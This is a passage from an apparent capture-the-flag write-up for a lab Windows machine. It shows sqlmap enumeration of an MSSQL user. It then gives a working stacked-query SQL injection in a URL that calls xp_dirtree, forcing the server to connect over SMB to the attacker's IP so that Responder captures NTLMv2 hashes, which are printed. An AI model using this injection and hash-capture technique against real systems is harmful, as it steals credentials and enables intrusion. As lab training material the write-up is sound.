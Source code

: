 We found one of the local user: `Stacy`

```
[19:48:06] [INFO] fetching current user
[19:48:06] [INFO] retrieved: giddy\\stacy
current user:    'giddy\\stacy'
```

We can't pull the users from the database since the current user doesn't have sufficient privileges:

```
[19:47:25] [WARNING] unable to retrieve the number of password hashes for user 'BUILTIN\\Users'
[19:47:25] [INFO] fetching number of password hashes for user 'giddy\\stacy'
[19:47:25] [INFO] retrieved: 
[19:47:25] [INFO] retrieved: 
[19:47:26] [WARNING] unable to retrieve the number of password hashes for user 'giddy\\stacy'
[19:47:26] [INFO] fetching number of password hashes for user 'sa'
[19:47:26] [INFO] retrieved: 
[19:47:26] [INFO] retrieved: 
[19:47:26] [WARNING] unable to retrieve the number of password hashes for user 'sa'
[19:47:26] [ERROR] unable to retrieve the password hashes for the database users (probably because the DBMS current user has no read privileges over the relevant system database table(s))
```

There's nothing else of interest in the database, no credentials or any other hint.

### SMB hashes

We have a username but no password for that account. However we can force the MSSQL server to connect back to use with SMB and then use responder to get the NTLMv2 hash.

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

Query: `GET /mvc/Product.aspx?ProductSubCategoryId=28;declare%20@q%20varchar(99);set%20@q=%27\\10.10.14.23\test%27;exec%20master.dbo.xp_dirtree%20@q HTTP/1.1`

With responder.py we can grab the hash:

```
[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:1234567890123456:E5F6E4D55FD85E3C81554FD67088C8E2:0101000000000000CC831652C447D4014EC0AB8B8592622B0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000003184F7110D23082928FF6CBBB72AEA07F35DCE741FC5B735D1B4780228A863AC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320033000000000000000000
[SMB] Requested Share     : \\10.10.14.23\IPC$
[SMB] NTLMv2-SSP Client   : 10.10.10.104
[SMB] NTLMv2-SSP Username : GIDDY\Stacy
[SMB] NTLMv2-SSP Hash     : Stacy::GIDDY:1234567890123456:C8FDC762ECE363F3B36E180C809B690D:0101000000000000E8DABE52C447D401D0CB7EFDCD2687540000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000003184F7110D23082928FF6CBBB72AEA07F35DCE741FC5B735D1B4780228A863AC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320033000000000000000000
[SMB] Requested Share     : \\10.10.14.23\TEST
```
